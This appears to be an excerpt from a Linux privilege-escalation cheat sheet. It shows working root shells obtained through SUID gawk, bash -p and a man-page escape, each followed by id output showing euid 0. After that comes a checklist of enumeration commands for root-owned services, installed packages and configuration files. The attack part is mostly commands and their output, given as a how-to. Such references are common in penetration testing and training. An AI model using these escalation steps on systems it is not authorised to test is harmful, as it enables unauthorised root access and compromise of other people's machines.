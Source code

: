 * awk
```
$ ls -al /usr/bin/gawk
-rwsr-xr-x 1 root root 733552 Jan 25  2017 /usr/bin/gawk

bash-4.3$ awk 'BEGIN {system("/bin/sh")}'
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

* bash
```
bash-4.3$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1109604 Jun 24  2016 /bin/bash

bash-4.3$ /bin/bash -p
bash-4.3# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

* man
```
$ man some_command
!/bin/sh
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

__2.2.2 Escalate privilege - Vulnerable application__

* Check for SUID bit set software and pay attention

* Check for running services
```
ps aux
ps -ef
top
cat /etc/services
```

* Check for running service with root
```
ps aux | grep root
ps -ef | grep root
```

* Check for installed software
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
```

* Check for config file
```
find /etc/ -name *conf
find /opt/ -name *conf

cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
```